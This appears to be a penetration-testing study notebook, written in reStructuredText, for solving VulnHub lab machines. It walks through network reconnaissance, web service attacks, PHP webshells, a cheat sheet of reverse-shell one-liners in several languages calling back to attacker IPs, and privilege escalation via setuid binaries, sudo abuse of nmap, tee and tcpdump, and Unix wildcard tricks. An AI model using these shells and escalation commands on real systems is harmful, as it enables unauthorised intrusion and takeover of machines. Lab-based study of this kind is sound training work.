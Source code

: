 Learning from the field : Vulnhub
==================================

This post (Work in Progress) mark downs the learning gathered by doing the vulnerable machines provided by the VulnHub. Once you download the virtual machine from the website and run it in VMware or Virtual Box,
below steps could be followed to find the vulnerabilties.

Finding the IP address
-----------------------

Netdiscover
^^^^^^^^^^^

An active/passive arp reconnaissance tool

::

  netdiscover [options] 
  -i interface : The network interface to sniff and inject packets. 
  -r range : Scan a given range instead of auto scan.

  Example: 
  netdiscover -i eth0/wlan0/vboxnet0/vmnet1 -r 192.168.1.0/24 
	
Interface name for Virtualization Software

* Virtualbox : vboxnet 
* Vmware     : vmnet 

Nmap
^^^^^^

Network exploration tool and security / port scanner 

::

  nmap [Scan Type] [Options] {target specification} 
  -sP/-sn Ping Scan -disable port scan 

  Example: nmap -sP/-sn 192.168.1.0/24

Port Scanning
--------------
	
Port scanning provides a large amount of information on open services and possible exploits that target these services. Two options

Unicornscan
^^^^^^^^^^^^

A port scanner that utilizes it’s own userland TCP/IP stack, which allows it to run a asynchronous scans. Faster than nmap and can scan 65,535 ports in a relatively shorter time frame. 

::  

   unicornscan [options] X.X.X.X/YY:S-E 
     -i, --interface : interface name, like eth0 or fxp1, not normally required 
     -m, --mode : scan mode, tcp (syn) scan is default, U for udp T for tcp \`sf' for tcp connect scan and A for arp for -mT you can also specify tcp flags following the T like -mTsFpU for example that would send tcp syn packets with (NO Syn\|FIN\|NO Push\|URG)
     Address ranges are cidr like 1.2.3.4/8 for all of 1.?.?.?, if you omit the cidr mask then /32 is implied. 
     Port ranges are like 1-4096 with 53 only scanning one port, a for all 65k and p for 1-1024

    example: unicornscan 192.168.1.5:1-4000 gateway:a would scan port 1 - 4000 for 192.168.1.5 and all 65K ports for gateway.

Nmap
^^^^^

Network exploration tool and security / port scanner 

::

  nmap [Scan Type] [Options] {target specification} 

  HOST DISCOVERY:
  -sL: List Scan - simply list targets to scan 
  -sn: Ping Scan - disable port scan 
  -Pn: Treat all hosts as online -- skip host discovery

  SCAN TECHNIQUES: 
  -sS/sT/sA/sW/sM: TCP SYN/Connect()/ACK/Window/Maimon scans 
  -sU: UDP Scan -sN/sF/sX: TCP Null, FIN, and Xmas scans

  PORT SPECIFICATION: 
  -p : Only scan specified ports 
  Ex: -p22; -p1-65535; -p U:53,111,137,T:21-25,80,139,8080,S:9

  SERVICE/VERSION DETECTION: 
  -sV: Probe open ports to determine service/version info

  OUTPUT: 
  -oN/-oX/-oS/-oG : Output scan in normal, XML,Output in the three major formats at once 
  -v: Increase verbosity level (use -vv or more for greater effect)

  MISC: -6: Enable IPv6 scanning -A: Enable OS detection, version detection, script scanning, and traceroute


As unicornscan is so fast, it makes sense to use it for scanning large networks or a large number of ports. The idea is to use unicornscan to scan all ports, and make a list of those ports that are open and pass them to nmap for service detection. superkojiman has written a script for this available at `GitHub <https://github.com/superkojiman/onetwopunch>`_.

When portscanning a host, you will be presented with a list of open ports. In many cases, the port number tells you what application is running. Port 25 is usually SMTP, port 80 mostly HTTP. However, this is not always the case, and especially when dealing with proprietary protocols running on non-standard ports you will not be able to determine what application is running.

By using **amap**, we can identify if any SSL server is running on port 3445 or some oracle listener on port 23. Also, it will actually do an SSL connect if you want and then try to identify the SSL-enabled protocol! One of the VM in vulnhub was running http and https on the same port.

::

  amap -A 192.168.1.2 12380 amap v5.4 (www.thc.org/thc-amap) started at 2016-08-10 05:48:09 - APPLICATION MAPPING mode
  Protocol on 192.168.1.2:12380/tcp matches http 
  Protocol on 192.168.1.2:12380/tcp matches http-apache-2 
  Protocol on 192.168.1.2:12380/tcp matches ntp 
  Protocol on 192.168.1.2:12380/tcp matches ssl
  Unidentified ports: none.
  amap v5.4 finished at 2016-08-10 05:48:16


Listen to the interface
-----------------------

We should always listen to the local interface on which the VM is hosted such as vboxnet0 or vmnet using wireshark or tcpdump. Many VMs send data randomly, for example, In one of the VM, it does the arp scan and sends a SYN packet on the port 4444, if something is listening on that port, it send the data.

:: 

  18:02:04.096292 IP 192.168.56.101.36327 > 192.168.56.1.4444: Flags [S], seq 861815232, win 16384, options [mss 1460,nop,nop,sackOK,nop,wscale 3,nop,nop,TS val 4127458640 ecr 0], length 0
  18:02:04.096330 IP 192.168.56.1.4444 > 192.168.56.101.36327: Flags [R.], seq 0, ack 861815233, win 0, length 0
  18:02:04.098567 ARP, Request who-has 192.168.56.2 tell 192.168.56.101, length 28
  18:02:04.098584 ARP, Request who-has 192.168.56.2 tell 192.168.56.101, length 28
  18:02:04.100756 ARP, Request who-has 192.168.56.3 tell 192.168.56.101, length 28
  18:02:04.100773 ARP, Request who-has 192.168.56.3 tell 192.168.56.101, length 28
  18:02:04.096292 IP 192.168.56.101.36327 > 192.168.56.1.4444: Flags [S],

On listening on the port 4444, we recieve a base64 encoded string

::

  nc -lvp 4444
  listening on [any] 4444 …
  192.168.56.101: inverse host lookup failed: Unknown host
  connect to [192.168.56.1] from (UNKNOWN) [192.168.56.101] 39519
  0IHNpbGVuY2Ugc3Vycm91bmRpbmcgeW91Lg0KWW91IGxvb2sgZWFzdCwgdGhlbiBzb3V0aCwgdGhlbiB3ZXN0LCBhbGwgeW91IGNhbiBzZWUgaXMgYSBncmVhdCB3YXN0ZWxh


From Nothing to a Unprivileged Shell
------------------------------------

At this point, you would have an idea about the different services and service version running on the system. ( aka Figure out what webservices such as cms or softwares are running on the vulnerable machine )

searchsploit
^^^^^^^^^^^^
Exploit Database Archive Search

First, we need to check if the operating system is using any services which are vulnerable or the exploit is already available in the internet. For example, A vulnerable service webmin is present in one of the VM which can be exploited to extract information from the system.

::

  root@kali:~# nmap -sV -A 172.16.73.128
  **********Trimmed**************
  10000/tcp open  http        MiniServ 0.01 (Webmin httpd)
  |_http-methods: No Allow or Public header in OPTIONS response (status code 200)
  |_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
  | ndmp-version: 
  |_  ERROR: Failed to get host information from server
  **********Trimmed**************

If we search for webmin in searchsploit, we will find different exploits available for it and we just have to use the correct one based on the utility and the version matching.

::

  root@kali:~# searchsploit webmin
  **********Trimmed**************
  Description                                                                            Path
  ----------------------------------------------------------------------------------------------------------------
  Webmin < 1.290 / Usermin < 1.220 Arbitrary File Disclosure Exploit                   | /multiple/remote/1997.php
  Webmin < 1.290 / Usermin < 1.220 Arbitrary File Disclosure Exploit (perl)            | /multiple/remote/2017.pl
  Webmin 1.x HTML Email Command Execution Vulnerability                                | /cgi/webapps/24574.txt
  **********Trimmed**************
  *Insert searchsploit -xml options *

SecLists.Org Security Mailing List Archive
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

There would be some days, when you won't find vulnerability in searchsploit. We should also check the `seclists.org security mailing list google search <http://seclists.org/>`_ , if someone has reported any bug for that particular software. 

Webservices
^^^^^^^^^^^^^^^^^^^^^^^

If a webserver is running on the machine, we can start with running 
 
* **whatweb** to find what server is running. Further, we can execute nikto, w3af to find any vulnerabilities. dirb to find any hidden directories.

* **PUT Method**: Sometimes, it is also a good option to check for the various OPTIONS available on the website such as GET, PUT, DELETE etc.

 Curl command can be used to check the options available:

 ::

   curl -X OPTIONS -v http://192.168.126.129/test/
   Trying 192.168.126.129…
   Connected to 192.168.126.129 (192.168.126.129) port 80 (#0)
   > OPTIONS /test/ HTTP/1.1
   > Host: 192.168.126.129
   > User-Agent: curl/7.47.0
   > Accept: /
   >
   < HTTP/1.1 200 OK
   < DAV: 1,2
   < MS-Author-Via: DAV
   < Allow: PROPFIND, DELETE, MKCOL, PUT, MOVE, COPY, PROPPATCH, LOCK, UNLOCK
   < Allow: OPTIONS, GET, HEAD, POST
   < Content-Length: 0
   < Date: Fri, 29 Apr 2016 09:41:19 GMT
   < Server: lighttpd/1.4.28
   <
   * Connection #0 to host 192.168.126.129 left intact

 The put method allows you to upload a file. Eventually, you can upload a php file which can work as a shell. There are multiple methods to upload the file as mentioned in `Detecting and exploiting the HTTP Put Method <http://www.smeegesec.com/2014/10/detecting-and-exploiting-http-put-method.html>`_ 

 The few are

 * Nmap:

  ::

    nmap -p 80 --script http-put --script-args http-put.url='/uploads/rootme.php',http-put.file='/tmp/rootme.php'

 * curl:

  ::

    curl --upload-file test.txt -v --url http://192.168.126.129/test/test.txt

  or

  :: 

    curl -X PUT -d '

* **Wordpress**

 When running wpscan, also make sure you run --enumerate u for enumerating usernames. By default wpscan doesn't run it. Also, scan for plugins

 ::

   wpsscan
     --url       | -u <target url>       The WordPress URL/domain to scan.
     --force     | -f                    Forces WPScan to not check if the remote site is running WordPress.
     --enumerate | -e [option(s)]        Enumeration.
     option :
     	u        usernames from id 1 to 10
     	u[10-20] usernames from id 10 to 20 (you must write [] chars)
     	p        plugins
     	vp       only vulnerable plugins
     	ap       all plugins (can take a long time)
     	tt       timthumbs
     	t        themes
     	vt       only vulnerable themes
     	at       all themes (can take a long time)
     	Multiple values are allowed : "-e tt,p" will enumerate timthumbs and plugins
     	If no option is supplied, the default is "vt,tt,u,vp"

 Wordpress configuration is stored in wp-config.php. If you are able to download it, you might get username and password to database. We can also use wordpress to bruteforce password for a username 

 ::

   wpscan --url http://192.168.1.2 --wordlist /home/bitvijays/Documents/Walkthru/Mr_Robot_1/test.txt --username elliot

* Names? Possible Usernames? Possible Passwords? 
   
 Sometimes, on visiting the webpage of the webserver (If Vulnerable machine is running any http/https webserver), you would found possible  names of the employees working in the company. Now, it is common practise to have username based on your first/last name. It can be based  on named "namemash.py" available at here which could be used to create possible usernames. However, we still have a large amount of  usernames to bruteforce with passwords. Further, if the vulnerable machine is running a SMTP mail server, we can verify if the particular username exists or not and modify namemash.py to generate usernames for that pattern.

 * Using metasploit smtp\_enum module: Once msfconsole is running, use auxiliary/scanner/smtp/smtp\_enum, enter the RHOSTS (target address) and USER FILE containing the list of probable user accounts.
 * Using VRFY command:
 * Using RCPT TO command:


* **Brute forcing: hydra:**

  ::

    -l LOGIN or -L FILE login with LOGIN name, or load several logins from FILE
    -p PASS  or -P FILE try password PASS, or load several passwords from FILE
    -U        service module usage details
    -e nsr additional checks, "n" for null password, "s" try login as pass, "r" try the reverse login as pass

  hydra http-post-form:

  :: 

    hydra -U http-post-form

    Help for module http-post-form:
    ============================================================================
    Module http-post-form requires the page and the parameters for the web form.

    By default this module is configured to follow a maximum of 5 redirections in a row. It always gathers a new cookie from the same URL without variables. The parameters take three ":" separated values, plus optional values.

    (Note: if you need a colon in the option string as value, escape it with "\:", but do not escape a "\" with "\\".)

    Syntax:   <url>:<form parameters>:<condition string>[:<optional>[:<optional>]
    First is the page on the server to GET or POST to (URL).
    Second is the POST/GET variables (taken from either the browser, proxy, etc.
    with usernames and passwords being replaced in the "^USER^" and "^PASS^" placeholders (FORM PARAMETERS)
    Third is the string that it checks for an *invalid* login (by default)
    Invalid condition login check can be preceded by "F=", successful condition
    login check must be preceded by "S=".
    This is where most people get it wrong. You have to check the webapp what a failed string looks like and put it in this parameter!
    			The following parameters are optional:
     			C=/page/uri     to define a different page to gather initial cookies from
     			(h|H)=My-Hdr\: foo   to send a user defined HTTP header with each request
                     		^USER^ and ^PASS^ can also be put into these headers!
                     		Note: 'h' will add the user-defined header at the end
                     		regardless it's already being sent by Hydra or not.
                     		'H' will replace the value of that header if it exists, by the
                    		 one supplied by the user, or add the header at the end
    			Note that if you are going to put colons (:) in your headers you should escape them with a backslash (\).
     			All colons that are not option separators should be escaped (see the examples above and below).
     			You can specify a header without escaping the colons, but that way you will not be able to put colons
     			in the header value itself, as they will be interpreted by hydra as option separators.

    			Examples:
     			"/login.php:user=^USER^&pass=^PASS^:incorrect"
     			"/login.php:user=^USER^&pass=^PASS^&colon=colon\:escape:S=authlog=.*success"
     			"/login.php:user=^USER^&pass=^PASS^&mid=123:authlog=.*failed"
     			"/:user=^USER&pass=^PASS^:failed:H=Authorization\: Basic dT1w:H=Cookie\: sessid=aaaa:h=X-User\: ^USER^"
     			"/exchweb/bin/auth/owaauth.dll:destination=http%3A%2F%2F<target>%2Fexchange&flags=0&username=<domain>%5C^USER^&password=^PASS^&SubmitCreds=x&trusted=0:reason=:C=/exchweb"


FTP Services
^^^^^^^^^^^^^^^^^^

If ftp anonymous login is provided or you have login details, you can download the contents by wget, (For anonymous login user password are not required)

::

  wget -rq ftp://IP --ftp-user=username --ftp-password=password

Remote Code Execution
^^^^^^^^^^^^^^^^^^^^^^

* MYSQL: If we have MYSQL Shell, we can use mysql outfile function to upload a shell.

 :: 

   echo -n "<?php phpinfo(); ?>" | xxd -ps 3c3f70687020706870696e666f28293b203f3e
   select 0x3c3f70687020706870696e666f28293b203f3e into outfile "/var/www/html/blogblog/wp-content/uploads/phpinfo.php"``

* **Reverse Shells**: Mostly taken from PentestMonkey Reverse shell cheat sheet and Reverse Shell Cheat sheet from HighOn.Coffee

 * PHP: We can create a new file say ( shell.php ) on the server containing

  :: 

    <?php system($\_GET["cmd"]); ?>

  or

  :: 

    <?php echo shell_exec($\_GET["cmd"]); ?>

  which can be accessed by

  :: 

    http://IP/shell.php?cmd=id

  or we can create a php meterpreter shell, run a exploit handler on msf, upload the payload on the server and wait for the connection.

  ::

    msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4444 -f raw -o /tmp/payload.php

  Weely also generates a webshell

  :: 

    weevely generate password /tmp/payload.php

  which can be called by

  :: 

    weevely http://192.168.1.2/location_of_payload password

  However, it wasn't as useful as php meterpreter or reverse shell.

 * PHP Trick: This code assumes that the TCP connection uses file descriptor 3. This worked on my test system. If it doesn’t work, try 4, 5, 6

  :: 

    php -r '$sock=fsockopen("192.168.56.101",1337);exec("/bin/sh -i <&3 >&3 2>&3");'

  The above can be connected by listening at port 1337 by using nc

 * Ruby:

  :: 

    ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

 * Perl:

  .. code-block :: bash 

    perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

 * Python:

  .. code-block :: bash  

    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

 * Java:

  .. code-block :: bash 

    r = Runtime.getRuntime()
    p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
    p.waitFor()

 * JSP:

  .. code-block :: bash 

     msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.110.129 LPORT=4444 -f war > runme.war

 * XTerm:

  One of the simplest forms of reverse shell is an xterm session. The following command should be run on the server. It will try to connect back to you (10.0.0.1) on TCP port 6001.

  .. code-block :: bash 

    xterm -display 10.0.0.1:1


  To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001). One way to do this is with Xnest (to be run on 			your system):

  ::
 
     Xnest :1

  You’ll need to authorise the target to connect to you (command also run on your host):

  ::

    xhost +targetip

Spawning a TTY Shell
^^^^^^^^^^^^^^^^^^^^

Spawning a TTY Shell and Post-Exploitation Without A TTY has provided multiple ways to get a tty shell

.. code-block :: bash 

  python -c 'import pty; pty.spawn("/bin/sh")'

or

.. code-block :: bash

  python -c 'import pty; pty.spawn("/bin/bash")'

.. code-block :: bash

  python -c 'import os; os.system("/bin/bash")'

.. code-block :: bash

  /bin/sh -i

.. code-block :: bash 

  perl -e 'exec "/bin/sh";'

.. code-block :: bash

  perl: exec "/bin/sh";

.. code-block :: bash

   ruby: exec "/bin/sh"

.. code-block :: bash

   lua: os.execute('/bin/sh')

(From within IRB)

.. code-block :: bash

  exec "/bin/sh"

(From within vi)

.. code-block :: bash 

  :!bash

(From within vi)

.. code-block :: bash 

  :set shell=/bin/bash:shell

(From within nmap)

.. code-block :: bash 

  !sh

Using “Expect” To Get A TTY

.. code-block :: bash 

  $ cat sh.exp
  #!/usr/bin/expect
  # Spawn a shell, then allow the user to interact with it.
  # The new shell will have a good enough TTY to run tools like ssh, su and login
  spawn sh
  interact




Unprivileged shell to privileged shell
---------------------------------------

Cron.d
^^^^^^^

Check cron.d and see if any script is executed as root at any time and is world writeable. If so, you can use to setuid a binary with /bin/bash and use it to get root.

Suid.c

::

  int main(void) {
  setgid(0); setuid(0);
  execl(“/bin/sh”,”sh”,0); }

SUDO -l Permissions
^^^^^^^^^^^^^^^^^^^^

Let's see which executables have permission to run as sudo, We have collated the different methods to get a shell if the below applications are suid: nmap, tee, tcpdump, 

* nmap suid shell:

 :: 

   nmap --script <(echo 'require "os".execute "/bin/sh"')

 or

 :: 

   nmap --interactive

* If tee is suid: tee is used to read input and then write it to output and files. That means we can use tee to read our own commands and add them to any_script.sh, which can then be run as root by a user. If some script is run as root, you may also run. For example, let's say tidy.sh is executed as root on the server, we can write the below code in temp.sh

 :: 

   temp.sh
   echo “milton ALL=(ALL) ALL” > /etc/sudoers” 

 or 

 ::

   chmod +w /etc/sudoers to add write properties to sudoers file to do the above

 and then

 :: 

   cat temp.sh | sudo /usr/bin/tee /usr/share/cleanup/tidyup.sh

 which will add contents of temp.sh to tidyup.sh.

* tcpdump: The “-z postrotate-command” option (introduced in tcpdump version 4.0.0).

 Create a temp.sh ( which contains the commands to executed as root )

 :: 

   id
   /bin/nc 192.168.110.1 4444 -e /bin/bash

 Execute the command

 :: 

   sudo tcpdump -i eth0 -w /dev/null -W 1 -G 1 -z ./temp.sh -Z root

 where
 
 :: 

   -C file_size : Before  writing a raw packet to a savefile, check whether the file is currently larger than file_size and, if so, close the current savefile and open a new one.  Savefiles after the first savefile will have the name specified with the -w flag, with a number after it, starting at 1 and continuing upward.  The units of file_size are millions of bytes (1,000,000 bytes, not 1,048,576 bytes).

   -W Used  in conjunction with the -C option, this will limit the number of files created to the specified number, and begin overwriting files from the beginning, thus creating a 'rotating' buffer.  In addition,it will name the files with enough leading 0s to support the maximum number of files, allowing them to sort correctly. Used in conjunction with the -G option, this will limit the number of rotated dump files that get created, exiting with status 0 when reaching the limit. If used with -C as well, the behavior will result in cyclical files per timeslice.

   -z postrotate-command Used in conjunction with the -C or -G options, this will make tcpdump run " postrotate-command file " where file is the savefile being closed after each rotation. For example, specifying -z gzip or -z bzip will compress each savefile using gzip or bzip2.

   Note that tcpdump will run the command in parallel to the capture, using the lowest priority so that this doesn't disturb the capture process.

   And in case you would like to use a command that itself takes flags or different arguments, you can always write a shell script that will take the savefile name as the only argument, make the flags &  arguments arrangements and execute the command that you want.

   -Z user 
   --relinquish-privileges=user If tcpdump is running as root, after opening the capture device or input savefile, but before opening any savefiles for output, change the user ID to user and the group ID to the primary group of user.

   This behavior can also be enabled by default at compile time.


.. Note :: More can be learn `How-I-got-root-with-sudo <https://www.securusglobal.com/community/2014/03/17/how-i-got-root-with-sudo/>`_.


Unix Wildcards
^^^^^^^^^^^^^^^

The below text is directly from the `here <https://www.defensecode.com/public/DefenseCode_Unix_WildCards_Gone_Wild.txt>`_.

* Chown file reference trick (file owner hijacking)

 First really interesting target I've stumbled across is 'chown'. Let's say that we have some publicly writeable directory with bunch of PHP files in there, and root user wants to change owner of all PHP files to 'nobody'. Pay attention to the file owners in the following files list.

 :: 

   [root@defensecode public]# ls -al
   total 52
   drwxrwxrwx.  2 user user 4096 Oct 28 17:47 .
   drwx------. 22 user user 4096 Oct 28 17:34 ..
   -rw-rw-r--.  1 user user   66 Oct 28 17:36 admin.php
   -rw-rw-r--.  1 user user   34 Oct 28 17:35 ado.php
   -rw-rw-r--.  1 user user   80 Oct 28 17:44 config.php
   -rw-rw-r--.  1 user user  187 Oct 28 17:44 db.php
   -rw-rw-r--.  1 user user  201 Oct 28 17:35 download.php
   -rw-r--r--.  1 leon leon    0 Oct 28 17:40 .drf.php
   -rw-rw-r--.  1 user user   43 Oct 28 17:35 file1.php
   -rw-rw-r--.  1 user user   56 Oct 28 17:47 footer.php
   -rw-rw-r--.  1 user user  357 Oct 28 17:36 global.php
   -rw-rw-r--.  1 user user  225 Oct 28 17:35 header.php
   -rw-rw-r--.  1 user user  117 Oct 28 17:35 inc.php
   -rw-rw-r--.  1 user user  111 Oct 28 17:38 index.php
   -rw-rw-r--.  1 leon leon    0 Oct 28 17:45 --reference=.drf.php
   -rw-rw----.  1 user user   66 Oct 28 17:35 password.inc.php
   -rw-rw-r--.  1 user user   94 Oct 28 17:35 script.php

 Files in this public directory are mostly owned by the user named 'user', and root user will now change that to 'nobody'.

 :: 

   [root@defensecode public]# chown -R nobody:nobody \*.php

 Let's see who owns files now...

 :: 

   root@defensecode public]# ls -al
   total 52
   drwxrwxrwx.  2 user user 4096 Oct 28 17:47 .
   drwx------. 22 user user 4096 Oct 28 17:34 ..
   -rw-rw-r--.  1 leon leon   66 Oct 28 17:36 admin.php
   -rw-rw-r--.  1 leon leon   34 Oct 28 17:35 ado.php
   -rw-rw-r--.  1 leon leon   80 Oct 28 17:44 config.php
   -rw-rw-r--.  1 leon leon  187 Oct 28 17:44 db.php
   -rw-rw-r--.  1 leon leon  201 Oct 28 17:35 download.php
   -rw-r--r--.  1 leon leon    0 Oct 28 17:40 .drf.php
   -rw-rw-r--.  1 leon leon   43 Oct 28 17:35 file1.php
   -rw-rw-r--.  1 leon leon   56 Oct 28 17:47 footer.php
   -rw-rw-r--.  1 leon leon  357 Oct 28 17:36 global.php
   -rw-rw-r--.  1 leon leon  225 Oct 28 17:35 header.php
   -rw-rw-r--.  1 leon leon  117 Oct 28 17:35 inc.php
   -rw-rw-r--.  1 leon leon  111 Oct 28 17:38 index.php
   -rw-rw-r--.  1 leon leon    0 Oct 28 17:45 --reference=.drf.php
     -rw-rw----.  1 leon leon   66 Oct 28 17:35 password.inc.php
     -rw-rw-r--.  1 leon leon   94 Oct 28 17:35 script.php


 Something is not right. What happened? Somebody got drunk here. Superuser tried to change files owner to the user:group 'nobody', but somehow, all files are owned by the user 'leon' now. If we take closer look, this directory previously contained just the following two files created and owned by the user 'leon'.

 :: 

   -rw-r--r--.  1 leon leon    0 Oct 28 17:40 .drf.php
   -rw-rw-r--.  1 leon leon    0 Oct 28 17:45 --reference=.drf.php

 Thing is that wildcard character used in 'chown' command line took arbitrary '--reference=.drf.php' file and passed it to the chown command at the command line as an option.

 Let's check chown manual page (man chown):

 :: 

   --reference=RFILE     use RFILE's owner and group rather than specifying OWNER:GROUP values

 So in this case, '--reference' option to 'chown' will override 'nobody:nobody' specified as the root, and new owner of files in this directory will be exactly same as the owner of '.drf.php', which is in this case user 'leon'. Just for the record, '.drf' is short for Dummy Reference File. :)

 To conclude, reference option can be abused to change ownership of files to some arbitrary user. If we set some other file as argument	to the --reference option, file that's owned by some other user, not 'leon', in that case he would become owner of all files in this directory. With this simple chown parameter pollution, we can trick root into changing ownership of files to arbitrary users, and practically "hijack" files that are of interest to us.

 Even more, if user 'leon' previously created a symbolic link in that directory that points to let's say /etc/shadow, ownership of /etc/shadow would also be changed to the user 'leon'.


* **Chmod file reference trick**

 Another interesting attack vector similar to previously described 'chown' attack is 'chmod'. Chmod also has --reference option that can be abused to specify arbitrary permissions on files selected with asterisk wildcard. Chmod manual page (man chmod):

 :: 

    --reference=RFILE    :   use RFILE's mode instead of MODE values

  Example is presented below.

  :: 

    [root@defensecode public]# ls -al
    total 68
    drwxrwxrwx.  2 user user  4096 Oct 29 00:41 .
    drwx------. 24 user user  4096 Oct 28 18:32 ..
    -rw-rw-r--.  1 user user 20480 Oct 28 19:13 admin.php
    -rw-rw-r--.  1 user user    34 Oct 28 17:47 ado.php
    -rw-rw-r--.  1 user user   187 Oct 28 17:44 db.php
    -rw-rw-r--.  1 user user   201 Oct 28 17:43 download.php
    -rwxrwxrwx.  1 leon leon     0 Oct 29 00:40 .drf.php
    -rw-rw-r--.  1 user user    43 Oct 28 17:35 file1.php
    -rw-rw-r--.  1 user user    56 Oct 28 17:47 footer.php
    -rw-rw-r--.  1 user user   357 Oct 28 17:36 global.php
    -rw-rw-r--.  1 user user   225 Oct 28 17:37 header.php
    -rw-rw-r--.  1 user user   117 Oct 28 17:36 inc.php
    -rw-rw-r--.  1 user user   111 Oct 28 17:38 index.php
    -rw-r--r--.  1 leon leon     0 Oct 29 00:41 --reference=.drf.php
    -rw-rw-r--.  1 user user    94 Oct 28 17:38 script.php

  Superuser will now try to set mode 000 on all files.

  :: 

    [root@defensecode public]# chmod 000 *

  Let's check permissions on files...

  :: 

    [root@defensecode public]# ls -al
    total 68
    drwxrwxrwx.  2 user user  4096 Oct 29 00:41 .
    drwx------. 24 user user  4096 Oct 28 18:32 ..
    -rwxrwxrwx.  1 user user 20480 Oct 28 19:13 admin.php
    -rwxrwxrwx.  1 user user    34 Oct 28 17:47 ado.php
    -rwxrwxrwx.  1 user user   187 Oct 28 17:44 db.php
    -rwxrwxrwx.  1 user user   201 Oct 28 17:43 download.php
    -rwxrwxrwx.  1 leon leon     0 Oct 29 00:40 .drf.php
    -rwxrwxrwx.  1 user user    43 Oct 28 17:35 file1.php
    -rwxrwxrwx.  1 user user    56 Oct 28 17:47 footer.php
    -rwxrwxrwx.  1 user user   357 Oct 28 17:36 global.php
    -rwxrwxrwx.  1 user user   225 Oct 28 17:37 header.php
    -rwxrwxrwx.  1 user user   117 Oct 28 17:36 inc.php
    -rwxrwxrwx.  1 user user   111 Oct 28 17:38 index.php
    -rw-r--r--.  1 leon leon     0 Oct 29 00:41 --reference=.drf.php
    -rwxrwxrwx.  1 user user    94 Oct 28 17:38 script.php

